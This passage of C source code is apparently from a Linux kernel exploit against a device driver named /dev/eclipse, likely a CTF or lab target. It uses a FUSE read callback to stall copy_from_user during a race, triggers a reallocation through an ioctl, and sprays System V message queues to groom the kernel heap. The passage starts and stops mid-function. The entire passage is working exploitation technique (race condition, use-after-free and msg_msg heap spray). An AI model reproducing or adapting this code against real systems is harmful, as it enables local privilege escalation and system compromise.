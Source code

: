 ```c
    exit(1);
  }
}

void * recv_msg(int qid, size_t size) {
  void * memdump = malloc(size);

  if (msgrcv(qid, memdump, size, 0, IPC_NOWAIT | MSG_NOERROR) == -1) {
    perror("msgrcv");
    return NULL;
  }

  return memdump;
}

int qid[2];
static int read_callback(const char * path,
  char * file_buf, size_t size, off_t offset,
  struct fuse_file_info * fi) {
  printf("[+] read_callback triggered!\n");
  printf("    path  : %s\n", path);
  printf("    size  : 0x%lx\n", size);
  printf("    offset: 0x%lx\n", offset);

  if (strcmp(path, "/pwn") == 0 && race_active) {
    printf("[+] Triggering race condition during copy_from_user!\n");

    // Open a new fd to the same device
    int race_fd = open("/dev/eclipse", O_RDWR);
    if (race_fd != -1) {
      struct user_req realloc_req;
      realloc_req.size = 0x100; // Different size to force reallocation
      realloc_req.data = NULL;

      if ((qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) {
        perror("msgget");
        exit(1);
      }

      if ((qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) {
        perror("msgget");
        exit(1);
      }

      printf("[+] Calling realloc during copy_from_user...\n");
      ioctl(race_fd, CMD_REALLOC, & realloc_req);

      #define buf_size 0x400
      char buf[buf_size - 0x30];
      memset(buf, 0x41, sizeof(buf));
      send_msg(qid[0], buf, buf_size, 1);

      struct itimerspec its;

      its.it_interval.tv_sec = 0;
      its.it_interval.tv_nsec = 0;
      its.it_value.tv_sec = 9999;
      its.it_value.tv_nsec = 0;

      close(race_fd);
    }

    // Copy the data
```